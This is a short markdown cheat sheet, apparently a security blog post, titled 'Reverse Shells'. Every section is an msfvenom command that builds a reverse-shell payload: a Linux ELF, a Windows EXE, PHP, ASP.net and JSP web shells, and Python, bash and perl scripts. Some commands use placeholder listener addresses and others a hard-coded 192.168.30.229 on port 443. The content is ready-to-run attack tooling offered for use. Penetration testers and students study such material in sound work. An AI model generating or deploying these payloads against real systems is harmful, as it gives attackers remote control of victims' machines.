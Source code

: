```yaml
---
title: Reverse Shells
categories: [Notes, Cheat Sheet]
tags: [Cheat Sheet, Reverse Shell]
image:
  path: /assets/post/2025/Notes/Cheat Sheet/revshells.png
  alt: reverse shell cheat sheet
published: true
---
```


## Reverse Shell Payloads

### msfvenom
#### Payloads - Executable Files
> reverse shell binary ELF (Linux)
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

> reverse shell (Windows)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

#### Payloads - Web
> reverse shell (PHP)
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f raw > shell.php
```

> reverse shell (ASP.net)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.229 LPORT=443 -f asp > meterpreter.asp
```

> reverse shell (JSP)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### Payloads - Scripts
> reverse shell python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

> reverse shell bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

> reverse shell perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

---

## Reference
1. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

---
